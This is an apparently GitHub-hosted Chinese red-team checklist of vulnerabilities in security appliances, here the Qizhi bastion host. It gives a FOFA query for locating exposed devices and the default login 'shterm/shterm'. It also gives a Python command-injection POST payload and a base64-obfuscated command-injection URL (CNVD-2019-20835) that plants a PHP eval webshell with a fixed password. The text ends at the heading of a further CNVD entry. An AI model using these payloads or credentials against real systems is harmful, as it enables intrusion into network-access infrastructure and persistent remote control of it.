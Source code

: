 # 安全设备漏洞 Checklist

更新时间：2023.06

&#x2705; 表示漏洞文档已收录 [Vulnerability-Wiki]( https://github.com/Threekiii/Vulnerability-Wiki) 漏洞库，仅收录2022/2023年部分安全设备，全部 iot 漏洞列表见 [README.md](https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/iot/README.md)。参考阅读：[ffffffff0x/SecDevice-Exploits](https://github.com/ffffffff0x/1earn/blob/master/1earn/Security/RedTeam/%E5%AE%89%E9%98%B2%E8%AE%BE%E5%A4%87/SecDevice-Exploits.md#%E9%BD%90%E6%B2%BB%E5%A0%A1%E5%9E%92%E6%9C%BA)

## 一、身份与访问控制

### 0x01 堡垒机

#### 齐智堡垒机

FOFA：

```
app="齐治科技-堡垒机" 
```

##### 默认口令

```
shterm/shterm
```

##### shterm命令执行 tui.update.php

```
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```

##### 前台命令执行 cluster_manage.php CNVD-2019-20835

访问以下路径，返回 ok：

```
http://10.20.10.11/listener/cluster_manage.php
```

写入webshell：

```
/var/www/shterm/resources/qrcode/lbj77.php  密码10086
```

```
https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
```

##### 后台命令执行 data_provider.php CNVD-2019-17294
